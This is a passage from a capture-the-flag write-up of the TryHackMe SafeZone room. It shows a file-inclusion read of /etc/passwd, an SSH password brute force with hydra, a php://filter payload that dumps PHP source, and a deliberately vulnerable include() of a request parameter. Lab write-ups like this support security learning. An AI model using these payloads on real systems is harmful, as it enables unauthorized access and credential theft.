 We can!

**`/etc/passwd`:**
```
root:x:0:0:root:/root:/bin/bash
[...]
yash:x:1000:1000:yash,,,:/home/yash:/bin/bash
mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false
files:x:1001:1001:,,,:/home/files:/bin/bash
```

- Found system users: `files` and `yash`

**Hmm... Maybe we can brute force it's password in SSH via `hydra`?**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/SafeZone]
└─# hydra -l 'files' -P /usr/share/wordlists/rockyou.txt ssh://$RHOSTS
[...]
[STATUS] 176.00 tries/min, 176 tries in 00:01h, 14344223 to do in 1358:22h, 16 active
[STATUS] 112.00 tries/min, 336 tries in 00:03h, 14344063 to do in 2134:32h, 16 active
```

But no dice.

**Since we have LFI, we can try to read `/detail.php` PHP source code:** 
```
/detail.php?page=php://filter/convert.base64-encode/resource=detail.php
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/SafeZone/images/Pasted%20image%2020221230014153.png)

**Then base64 decode it:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/SafeZone/images/Pasted%20image%2020221230014220.png)

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/SafeZone]
└─# base64 -d detail.b64 > detail.php
```

```php
[...HTML code...]
<?php
$con=mysqli_connect("localhost","root","{Redacted}","db");
session_start();
if(isset($_SESSION['IS_LOGIN']))
{
$is_admin=$_SESSION['isadmin'];
echo "<h2 style='color:Tomato;margin-left:100px;margin-top:-80px'>Find out who you are :) </h2>";
echo "<br><br><br>";
if($is_admin==="true")
{
echo '<div style="align:center;" class="divf">';
echo '<form class="box" method="POST" style="text-align:center">';
echo '<input required AUTOCOMPLETE="OFF" style="text-align:center;" type="text" placeholder="user" name="name"><br><br>';
echo '<input type="submit" value="whoami" name="sub">';
echo '</form>';
echo '</div>';
if(isset($_GET["page"]))
{
		$page=$_GET["page"];
		$file = str_replace(array( "../", "..\"" ), "", $page );
		echo $file;
		include($file);
}
$formuser=mysqli_real_escape_string($con,$_POST['name']);
if(isset($_POST['sub']))
	{
```
